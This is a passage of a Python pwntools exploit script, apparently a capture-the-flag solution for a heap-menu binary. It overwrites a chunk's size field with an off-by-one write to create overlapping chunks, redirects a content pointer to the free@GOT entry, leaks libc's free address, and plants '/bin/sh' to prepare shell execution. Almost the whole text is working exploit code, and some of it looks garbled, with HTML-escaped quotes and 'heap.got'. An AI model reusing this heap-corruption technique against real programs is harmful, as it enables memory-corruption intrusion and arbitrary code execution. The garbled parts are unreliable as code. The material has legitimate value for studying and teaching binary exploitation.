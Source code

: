 ```python
    r.sendline(content)





def show(idx):

    r.recvuntil(":")

    r.sendline("3")

    r.recvuntil(":")

    r.sendline(str(idx))





def delete(idx):

    r.recvuntil(":")

    r.sendline("4")

    r.recvuntil(":")

    r.sendline(str(idx))





free_got = 0x602018

create(0x18, "dada")  # 0

create (0x10, &quot;daa&quot;) # 1
# overwrite heap 1's struct's size to 0x41

edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")

# trigger heap 1's struct to fastbin 0x40

# heap 1's content to fastbin 0x20

delete(1)

# new heap 1's struct will point to old heap 1's content, size 0x20

# new heap 1's content will point to old heap 1's struct, size 0x30

# that is to say we can overwrite new heap 1's struct

# here we overwrite its heap content pointer to free@got

create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1

# leak freeaddr

show(1)

```